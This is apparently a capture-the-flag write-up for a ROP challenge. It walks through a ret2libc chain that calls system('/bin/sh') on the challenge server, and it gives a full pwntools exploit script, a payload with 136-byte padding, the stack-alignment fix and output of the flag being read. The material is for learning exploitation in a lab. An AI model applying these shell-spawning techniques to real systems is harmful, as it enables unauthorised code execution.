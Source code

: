 # Roptastic shell

<p align="center">
<img src="./utils/roptastic_shell.png" alt="Challenge" width="500"/>
</p>

Connecting to the remote instance with `netcat` we are given some of the [source code](./utils/program.c) for the challenge. We are also given the goal of the challenge, and some options to interact with the program.

```
Your goal is to create a ROP chain that calls system("/bin/sh")
Use the menu options to lookup the address of system(),
and to add the "/bin/sh" string as an argument.

Google these terms for help:
- ret2libc

Good luck!

1. Fill buffer
2. Print stack frame
3. Verify ROP chain
4. Print challenge description
5. Print gadgets
6. Lookup symbol
7. Add string
8. [Quit]
>
```

The program for this challenge is similar to the earlier ones, but we have to spawn a shell instead of just setting popping values into registers. For this solve, we will utilize the options which prints the gadgets, writes a string to the binary, and looks up the address of a symbol in the binary (the last two weren't used in the previous challenges).


Our goal is similar to the `did someone say ret2win?` challenge, only that we want to call `system("/bin/sh")` instead of `win()`. To do this we need three things: the address of the `pop_rdi` gadget, the address of the string `/bin/sh` in the binary, and the address of `system`. The `pop_rdi` gadget we already know, and it is also printed to us when we choose option `5`. We don't know the address of the string `/bin/sh` in the binary, so we will add it ourselves using option `7`. The address of `system` we can look up using option `6`.
```python
from pwn import *

# Connect to remote instance
io = remote("pwn.tokle.dev", 1342)

# Receive all the output text from the program
io.recvuntil(b"Good luck!")

def get_gadgets():
    io.sendlineafter(b"> ", b"5")
    io.recvuntil(b"pop rdi; ret: ")
    pop_rdi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rsi; ret: ")
    pop_rsi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rdx; ret: ")
    pop_rdx = int(io.recvline().strip(), 16)
    return pop_rdi, pop_rsi, pop_rdx

def add_str(string):
    io.sendlineafter(b"> ", b"7")
    io.sendlineafter(b"String: ", string)
    io.recvuntil(b"String at: ")
    return int(io.recvline().strip(), 16)

def get_symbol_addr(symbol):
    io.sendlineafter(b"> ", b"6")
    io.sendlineafter(b"Symbol: ", symbol.encode())
    io.recvuntil(f"{symbol}: ".encode())
    return int(io.recvline().strip(), 16)

# Get address of gadgets
pop_rdi, pop_rsi, pop_rdx = get_gadgets()
log.success(f"Pop RDI @ {hex(pop_rdi)}")
log.success(f"Pop RSI @ {hex(pop_rsi)}")
log.success(f"Pop RDX @ {hex(pop_rdx)}")

# Add "/bin/sh" string
binsh = add_str(b"/bin/sh")
log.success(f"/bin/sh @ {hex(binsh)}")

# Get address of "system" function
system = get_symbol_addr("system")
log.success(f"system @ {hex(system)}")
```

As we have everything we need we can assemble our payload to get a shell! We know that the offset to the saved return address is 136 bytes. Inside `rdi` we need to put the address of `/bin/sh`, not the string itself! This is because the argument to the `system` function is the address where the string is located, not the string itself. Lastly, after we have set the `rdi` register to the address of `/bin/sh`, we call the `system` function.

```python
# ROP to get shell
payload = b"A"*136
payload += p64(pop_rdi) # "pop rdi; ret;" gadget
payload += p64(binsh)   # Address where "/bin/sh" string is stored
payload += p64(system)  # Address of "system" function
```

Sending and triggering the payload should then call `system("/bin/sh")` for us, and give us shell!
```python
# Send and trigger payload
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"Data: ", payload)
io.sendlineafter(b"> ", b"8")

io.interactive()
```


But it doesn't work... This is because of something called [The MOVAPS Issue](https://ropemporium.com/guide.html#common-pitfalls). TLDR; We need to put the call to system on a stack address ending in 0, not 8. Because we cannot reduce our payload with 8 bytes (we cannot remove the padding, because then we don't overwrite the return address as we want), we have to add 8 more bytes before we call system. The "standard" way to do this is to use another gadget: `ret;`. Luckily, this gadget is *everywhere* in binaries, so even though we are not given the explicit address of it in this challenge, we can still find it easily.

The first way to find the gadget is to add 1 to the address of our `pop_rdi` gadget. Because the `pop_rdi` gadget ends with a `ret` instruction (pop rdi; ret;), and the `pop rdi` gadget is only a single byte, if we add 1 we get only the `ret` part of that gadget.

Another way to find a `ret` gadget is by knowing that the originally saved return address is the address of a gadget with the operations `mov eax, 0; leave; ret;` (you can see this by printing the stack frame before overflowing the buffer). The `mov` instruction is 3 bytes in size, and the `leave` instruction is 1 byte in size. Therefore we know that a `ret` instruction is located at the address of the saved return address + 4 bytes.
The following full exploit script will use the first option, but both work equally good.

The full, and commented, exploit script can be found in [solve.py](./solve.py).

```console
$ python3 solve.py
[+] Opening connection to pwn.tokle.dev on port 1342: Done
[+] Pop RDI @ 0x4038db
[+] Pop RSI @ 0x4038dd
[+] Pop RDX @ 0x4038df
[+] /bin/sh @ 0x475480
[+] system @ 0x788dd6f07d70
[*] Switching to interactive mode
$ cat flag.txt
flag{ropping_your_way_to_flags}
```